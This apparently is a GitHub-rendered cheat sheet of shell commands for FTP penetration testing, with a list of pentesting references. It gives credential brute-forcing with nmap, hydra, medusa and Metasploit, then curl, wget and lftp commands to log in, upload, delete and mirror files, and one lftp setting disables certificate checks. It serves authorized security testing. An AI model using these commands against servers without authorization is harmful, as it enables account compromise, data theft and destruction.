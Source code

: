 ```shell
## CREDENTIAL ENUMERATION ##
# with nmap
nmap --script ftp-brute -p 21 $IP --script-args brute.mode=creds,brute.credfile=$USERNAMEPASSWORDLIST --min-rate 10000  # reveal credentials - wordlist entries must be in the form USERNAME/PASSWORD

# with hydra
hydra -t 20 -c 1 -L $USERNAMELIST -P $PASSWORDLIST -s 21 ftp://$IP -V    # reveal credentials

# with medusa
medusa -t 2 -T 2 -U $USERNAMELIST -P $PASSWORDLIST -h $IP -n 21 -M ftp | grep "SUCCESS"

# with metasploit
use auxiliary/scanner/ftp/ftp_login
show options
set threads 30
set rhosts $IP
set userpass_file $USERNAMEPASSWORDLIST    # wordlist in the form USERNAME PASSWORD
run

## PATH ENUMERATION ##
# with curl
curl -s ftp://$USERNAME:$PASSWORD@$IP    # login and list home folder contents
curl -s --user "$USERNAME:$PASSWORD" ftp://$IP:$PORT/ --upload-file $LOCAL_FILENAME     # upload file
curl -s ftp://$USERNAME:$PASSWORD@$IP/ --quote "DELE $REMOTE_FILENAME"    # delete specified file using ftp command

# with wget
wget -r -m --no-passive -nH -P $FOLDERNAME ftp://$USERNAME:$PASSWORD@$IP:$PORT/    # download recursively

## HOST ENUMERATION/FOOTPRINTING ##
# with ftp
ftp -n <<RUN
open $IP
user $USERNAME $PASSWORD
put $LOCAL_FILENAME
RUN

# with lftp
lftp -u '$USERNAME,$PASSWORD' -p21 $IP -c 'ls -a'    # login and list all contents
lftp    # activate the prompt
?    # show help
set ftp:ssl-force yes    # enable ssl
set ssl:verify-certificate no    # do not verify certificate
connect $IP    # connect to the server
login $USERNAME $PASSWORD    # login
```  

**References**  
- https://phoenixnap.com/kb/linux-ftp
- https://www.cosmos.esa.int/documents/772136/977578/psa_activeVsPassiveFtp.pdf
- https://exploit-notes.hdks.org/exploit/network/protocol/ftp-pentesting/
- https://secybr.com/posts/ftp-pentesting-best-practices/
- https://book.hacktricks.xyz/pentesting/pentesting-ftp
- https://www.infosecmatter.com/nmap-nse-library/?nse=ftp-brute
- https://ss64.com/rawftp.html